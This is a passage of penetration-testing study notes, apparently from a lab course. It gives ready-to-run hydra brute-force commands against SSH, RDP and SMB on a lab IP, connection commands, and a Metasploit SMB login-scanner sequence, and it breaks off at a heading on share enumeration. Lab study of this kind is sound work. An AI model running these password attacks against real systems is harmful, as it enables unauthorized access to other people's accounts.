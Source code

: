 ### SSH Brute Force

```bash
hydra -L user.list -P password.list ssh://10.129.42.197
```

### SSH Connection

```bash
ssh user@10.129.42.197
```

## RDP (Remote Desktop Protocol)

- Microsoft protocol for remote system access (TCP port 3389)
- Allows full GUI control of remote Windows systems
- Can share peripherals (printers, storage) between systems

### RDP Brute Force

```bash
hydra -L user.list -P password.list rdp://10.129.42.197
```

### RDP Connection (Linux)

```bash
xfreerdp /v:10.129.42.197 /u:user /p:password
```

## SMB (Server Message Block)

- Protocol for file/directory sharing and printing in Windows networks
- Also known as CIFS (Common Internet File System)
- Samba is an open-source implementation for cross-platform use

### SMB Brute Force

```bash
hydra -L user.list -P password.list smb://10.129.42.197
```

### Alternative: Using Metasploit

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts 10.129.42.197
run
```

### Enumerating SMB Shares
